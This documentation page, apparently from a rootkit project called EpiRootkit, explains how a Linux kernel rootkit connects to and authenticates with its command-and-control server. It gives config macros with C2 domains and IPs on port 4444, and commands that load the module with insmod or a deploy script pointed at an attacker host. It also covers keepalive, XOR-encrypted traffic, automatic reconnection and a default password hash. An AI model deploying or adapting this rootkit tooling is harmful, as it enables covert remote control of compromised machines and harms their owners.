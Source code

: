 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```


# Connection & Authentication

How EpiRootkit connects to the C2 server and handles authentication with **domain support** and **XOR encryption**.

## Connection Process

When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Resolves domain** (if address is domain name) - see [DNS Resolution](./features/dns-resolution.md)
3. **Attempts TCP connection** to configured C2 server
4. **Begins keepalive system** (60-second ping/pong)
5. **Enables XOR encryption** for all C2 communication
6. **Handles reconnection** with exponential backoff

### Configuration with Domain Support
```c
// rootkit/core/config.h - Domain examples
#define C2_SERVER_ADDRESS "jules-c2.example.com"  // Domain name
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000

// Or traditional IP
#define C2_SERVER_ADDRESS "192.168.64.1"  // IP address
#define C2_SERVER_PORT 4444
```

### Runtime Parameters
Override config.h settings during deployment:
```bash
# Deploy with domain
sudo ./deploy_rootkit.sh address=secure.company.net port=443

# Deploy with IP
sudo ./deploy_rootkit.sh address=10.0.0.100 port=8080
```

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Keepalive System

- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Live Demo

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit with Domain
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.test-domain.com port=4444

# Or load directly
sudo insmod epirootkit.ko address=c2.test-domain.com port=4444
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).
